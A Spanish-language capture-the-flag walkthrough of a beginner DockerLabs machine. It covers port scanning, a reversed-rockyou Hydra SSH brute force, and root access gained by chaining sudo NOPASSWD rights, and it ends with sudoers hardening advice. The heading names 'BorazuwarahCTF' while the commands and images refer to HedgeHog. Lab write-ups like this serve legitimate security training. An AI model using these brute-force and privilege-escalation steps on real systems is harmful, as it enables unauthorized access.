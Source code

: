 # 🖥️ Máquina: BorazuwarahCTF  
🔹 **Dificultad:** Muy Fácil  

---

## 📌 Descripción

**BorazuwarahCTF** es una máquina de práctica alojada en **DockerLabs**, diseñada especialmente para quienes se inician en el _pentesting_. Permite practicar técnicas esenciales como:

- Ataques de fuerza bruta con **Hydra**  
- Análisis de metadatos en imágenes  
- Escalada de privilegios mediante **sudo**  

---

## 🎯 Objetivos

- Identificar credenciales mediante ataques de fuerza bruta  
- Extraer información sensible desde archivos públicos  
- Escalar privilegios en el sistema  

---

## 🚀 Inicio

![Inicio](/HedgeHog/Imagenes/Logo.png)

Primero, descargamos e iniciamos la máquina vulnerable con el comando:

```bash
sudo bash auto_deploy.sh hedgehog.tar
```

![Iniciar máquina](/HedgeHog/Imagenes/Iniciar.jpeg)

---

## 📡 Verificar Conectividad

Hacemos un _ping_ a la IP de la máquina para confirmar que está activa. Usando el **TTL** (_Time To Live_) también podemos inferir el tipo de sistema operativo (Linux o Windows). Nota: estos valores pueden ser modificados.

```bash
ping 172.17.0.2
```

![Ping](/HedgeHog/Imagenes/Ping.jpeg)

---

## 🔍 Reconocimiento de Puertos

Iniciamos con un escaneo completo de puertos utilizando **nmap**:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Gracias a esto, descubrimos que están abiertos los puertos:

- **22 (SSH)**  
- **80 (HTTP)**

![Puertos Abiertos](/HedgeHog/Imagenes/Puerto.jpeg)

Tengo un script para extraer los puertos e IPs del archivo generado por nmap:

```bash
extractPorts allPorts.txt
```

Luego hacemos un escaneo más detallado en los puertos encontrados:

```bash
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

![Servicios detectados](/HedgeHog/Imagenes/Servicios.jpeg)

---

## 🌐 Análisis Web

Accedemos al servicio HTTP y encontramos un posible nombre de usuario para SSH. Confirmamos la tecnología usada en el sitio con:

```bash
whatweb 172.17.0.2
```

Probamos también con **Gobuster** y **Wfuzz** para buscar directorios o subdominios ocultos, pero no se encontró nada relevante.

![Página web](/HedgeHog/Imagenes/Pagina.jpeg)

---

## 🔓 Fuerza Bruta con Hydra

Al no tener éxito con métodos convencionales, intentamos un ataque por fuerza bruta con **Hydra**, pero fue lento, así que decidimos invertir el diccionario `rockyou.txt` para comenzar por las contraseñas menos comunes:

```bash
tac /usr/share/wordlists/rockyou.txt >> /usr/share/wordlists/rockyou_invertido.txt
```

Verificamos que hay espacios no deseados:

```bash
cat /usr/share/wordlists/rockyou_invertido.txt | head
```

Eliminamos los espacios:

```bash
sed -i 's/  //g' /usr/share/wordlists/rockyou_invertido.txt
```

¡Listo para usar con Hydra!

![Hydra ataque](/HedgeHog/Imagenes/Hydra.jpeg)

---

## 🧠 Escalada de Privilegios

Una vez dentro con las credenciales encontradas, analizamos cómo escalar de `tails` a `root`.

### 🔐 Paso 1: Verificar permisos de sudo

```bash
sudo -l
```

Resultado:

```bash
User tails may run the following commands on 04d3ae7efbc6:
    (sonic) NOPASSWD: ALL
```

Esto indica que `tails` puede ejecutar cualquier comando como el usuario `sonic` sin contraseña.

---

### 🔄 Paso 2: Intentar acceder al home de sonic

```bash
cd /home/sonic/
# Resultado: Permission denied
```

---

### 👤 Paso 3: Cambiar a sonic

```bash
sudo -u sonic /bin/bash
```

Ya como sonic, verificamos si también puede usar sudo:

---

### 🔼 Paso 4: Escalar a root desde sonic

```bash
sudo -u root /bin/bash
```

Y finalmente:

```bash
whoami
# Resultado: root
```

¡Acceso root conseguido!

![Escalada de privilegios](/HedgeHog/Imagenes/Privilegio.jpeg)

---

## ❓ ¿Por qué funcionó?

Aunque `tails` no podía ser root directamente, sí podía ejecutar comandos como `sonic`, y **sonic** tenía privilegios sudo sin restricción, lo que permitió encadenar el acceso a `root`.

---

## 🔒 Recomendación de Seguridad

- Evitar configuraciones como `NOPASSWD: ALL` sin una razón clara.
- Auditar el archivo `/etc/sudoers` y aplicar el principio de **mínimos privilegios**.
- Monitorizar el uso de cuentas con acceso sudo.

